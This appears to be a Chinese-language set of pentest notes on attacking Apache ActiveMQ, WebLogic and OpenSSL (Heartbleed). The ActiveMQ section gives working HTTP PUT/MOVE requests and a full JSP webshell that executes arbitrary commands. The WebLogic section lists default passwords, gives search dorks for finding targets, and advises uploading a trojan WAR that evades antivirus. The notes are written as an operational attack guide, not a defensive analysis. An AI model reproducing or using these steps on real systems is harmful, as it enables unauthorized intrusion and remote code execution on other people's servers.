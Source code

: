 ### 【Apache ActiveMQ Fileserver远程代码执行漏洞】

* **漏洞挖掘**
  * 扫端口的时候遇到8161端口，输入admin/admin
  * 通过put上去一句话然后move移动到admin目录即可拿shell

* **漏洞利用**
  * 获取物理路径
    ```
    PUT /fileserver/%20/%20 HTTP/1.1
    ```
  * PUT 一个 Jsp 的 Webshell 到 fileserver 目录
    ```
    PUT /fileserver/1.jsp HTTP/1.1 
    <%@ page import="java.io.*"%>
    <%
    out.print("Hello</br>");
    String strcmd = request.getParameter("cmd");
    String line =null;
    Process p=Runtime.getRuntime().exec(strcmd);
     InputStream is = p.getInputStream();
      BufferedReader br = new BufferedReader(new InputStreamReader(is));
    while((line =br.readLine())!=null){
        out.print(line+"<br>");
    }
    %>
    ```
  * 利用 MOVE 方法将 Webshell 移入 admin/ 目录
    MOVE /fileserver/1.jsp  HTTP/1.1
    Destination:file://C:\activemq\webapps\admin\11.jsp
    
### 【weblogic攻击】

* **漏洞挖掘**
  * 批量扫描WebLogic缺省的WEB管理端口（http为7001，https为7002），开放这两个端口的一般都是安装有WebLogic的主机。
  * Google搜索关键字“WebLogic Server Administration Console inurl:console”，URL后面是console结尾的，一般为目标。

* **漏洞挖掘**
  * 尝试弱口令登录
    1、用户名密码均为：weblogic 
    2、用户名密码均为：system 
    3、用户名密码均为：portaladmin 
    4、用户名密码均为：guest
  
  * 登录后找到“mydomain”->“Deployments”->“Web Application Modules”->“Deploy new Web Application Moudule...”
  * 再点里面的“upload your file(s)”，在跳转后的页面上传war包（war包和Tomcat弱口令利用的包一样，注意马的免杀即可）


### 【PHPstudy RCE 漏洞复现】



### 【心脏滴血漏洞】

* **漏洞范围**
  * OpenSSL1.0.1版本

* **漏洞成因**
  * Heartbleed漏洞是由于未能在memcpy()调用受害用户输入内容作为长度参数之前正确进行边界检查。攻击者可以追踪OpenSSL所分配的64KB缓存、将超出必要范围的字节信息复制到缓存当中再返回缓存内容，这样一来受害者的内存内容就会以每次64KB的速度进行泄露。


* **漏洞危害**
  * 如同漏洞成因所讲，我们可以通过该漏洞读取每次攻击泄露出来的信息，所以可能也可以获取到服务器的私钥，用户cookie和密码等。